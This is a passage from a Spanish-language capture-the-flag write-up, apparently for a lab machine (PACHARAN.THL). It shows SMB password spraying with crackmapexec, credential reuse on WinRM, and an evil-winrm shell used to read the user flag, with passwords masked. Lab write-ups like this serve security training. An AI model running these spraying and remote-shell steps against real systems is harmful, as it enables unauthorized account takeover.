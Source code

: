 Y con **crackmapexec**, aplicamos **password spraying**:
```bash
crackmapexec smb 192.168.69.69 -u users.txt -p '******'
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [*] Windows 10 / Server 2016 Build 14393 x64 (name:WIN-VRU3GG3DPLJ) (domain:PACHARAN.THL) (signing:True) (SMBv1:False)
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\Administrador:****** STATUS_LOGON_FAILURE 
...
...
...
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [+] PACHARAN.THL\Chivas Regal:******
....
....
```
Excelente, encontramos a quien le pertenece este usuario.

Ahora, podríamos probar si podemos hacerlo algo en el **servicio SMB**, pero veamos si podemos usar estas credenciales para entrar al **servicio WinRM**:
```bash
crackmapexec winrm 192.168.69.69 -u 'Chivas Regal' -p ' **************'
SMB         192.168.69.69   5985   WIN-VRU3GG3DPLJ  [*] Windows 10 / Server 2016 Build 14393 (name:WIN-VRU3GG3DPLJ) (domain:PACHARAN.THL)
HTTP        192.168.69.69   5985   WIN-VRU3GG3DPLJ  [*] http://192.168.69.69:5985/wsman
WINRM       192.168.69.69   5985   WIN-VRU3GG3DPLJ  [+] PACHARAN.THL\Chivas Regal:********* (Pwn3d!)
```
Funciono.

Vamos a conectarnos con la herramienta **evil-winrm**:
```batch
evil-winrm -i 192.168.69.69 -u 'Chivas Regal' -p '**************'
                                        
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion       
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chivas Regal\Documents>
```
Y estamos dentro.

Aquí podemos encontrar la flag del usuario:
```batch
*Evil-WinRM* PS C:\Users\Chivas Regal\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Chivas Regal\Desktop> dir

    Directorio: C:\Users\Chivas Regal\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2024  10:29 AM             36 user.txt

*Evil-WinRM* PS C:\Users\Chivas Regal\Desktop> type user.txt
....
```
